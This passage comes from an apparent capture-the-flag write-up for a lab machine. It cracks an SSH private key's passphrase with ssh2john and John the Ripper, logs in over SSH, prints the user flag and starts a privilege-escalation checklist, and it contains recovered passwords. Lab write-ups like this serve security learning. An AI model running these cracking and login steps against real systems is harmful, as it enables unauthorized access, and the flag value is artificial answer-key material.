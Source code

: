 Nope it has a passphrase. That can easily be cracked with John the ripper

```bash
ssh2john id_rsa > john_rsa
john john_rsa --wordlist=/usr/share/wordlists/rockyou.txt
```

**Results:**
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)     
1g 0:00:00:00 DONE (2025-07-13 12:09) 50.00g/s 668800p/s 668800c/s 668800C/s pink25..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
so his ssh private key has a passphrase of "james13"
```bash
ssh -i id_rsa james@10.10.208.137
```

That worked. I am in as john. Let's cat the user flag

**Q. Hack the machine and get the flag in user.txt
A. thm{65c1aaf000506e56996822c6281e6bf7}


## Excalate to root

```
Things to try

1. sudo -l
2. suid files
3. cron jobs
4. random password files
```

### 1. sudo -l

Nope it asked for a password. I did run the overpass test utility and to export all passwords. A password was provided!. However, this is not the root password but the one for james. I tried using the password and it worked but we're not in the sudoers group.

```
Password for Jaames: saydrawnlyingpicture
```

### 2. suid files

Next, I looked for suid files.
